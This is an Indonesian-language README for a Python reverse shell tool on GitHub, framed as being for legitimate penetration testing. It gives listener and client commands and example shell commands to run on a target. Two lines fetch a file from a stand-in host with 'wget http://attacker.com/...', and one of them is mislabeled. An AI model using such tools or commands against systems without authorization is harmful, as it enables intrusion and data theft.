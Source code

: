 # Python Reverse Shell Tool
![carbon (1)](https://github.com/user-attachments/assets/bb463d32-d556-4743-af68-8ebd0b32510d)

Tool reverse shell sederhana berbasis Python untuk penetration testing yang sah.

## Fitur Utama

- 🚀 **Dual Mode**: Mode listener dan client
- 🔒 **Komunikasi Terenkripsi** (versi advanced)
- 📱 **Multi-Platform**: Bekerja di Windows, Linux, dan macOS
- 💻 **Shell Interaktif**
- 📡 **Port Customizable**

# Fitur Tambahan 
- Detailed logging to file
- Different log levels
- Critical error tracking
- Connection errors (timeout, refused, etc.)
- Command execution errors
- Listener setup errors
- Input validation
- Auto-reconnect mechanism
- Input validation for IP/port
- Better resource cleanup
- Graceful shutdown
- Proper socket cleanup
- Error messages don't reveal sensitive info
- Input sanitization
- Clear error messages
- Colorized output
- Helpful status messages



## Persyaratan

- Python 3.6+
- Modul `cryptography` (untuk versi enkripsi)
 ```console
 pip install cryptography
```

# Cara Penggunaan

1. Mode Listener (Target)
 ```console
 python3 reverse.py -l -p 5555
```

2. Mode Client (Attacker)
 ```console
python3 reverse.py -c <IP_TARGET> -p 5555
```

* Untuk Sistem Linux/Mac
```console
shell> ls          # Lihat isi direktori
shell> pwd         # Lihat direktori saat ini 
shell> ls -la      # Lihat semua file termasuk hidden
shell> tree        # Lihat struktur direktori (jika terinstall)
```
* Untuk Sistem Windows
```console
shell> dir         # Lihat isi direktori
shell> cd          # Lihat direktori saat ini
shell> tree        # Lihat struktur direktori
```
* Karakter khusus
```console
shell> cd "My Documents"
shell> cd /var/www/html
shell> ls
```
* Download direktori target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```
* Upoad File ke target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```

| Command | Description |
| --- | --- |
| -l | Jalankan sebagai listener |
| -c IP | Hubungkan ke listener di IP target |
| -p PORT | Tentukan port (default: 4444) |
| -i | Mode interaktif |
| -k KEY | Encryption key (versi advanced) |

# Troubleshooting
```console
sudo lsof -i :4444  # Cari proses yang menggunakan port
sudo kill -9 <PID>  # Hentikan proses
```
* Pastikan listener sudah berjalan di target
* Periksa firewall/network configuration
MIT License

Copyright (c) Izumy

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe/)
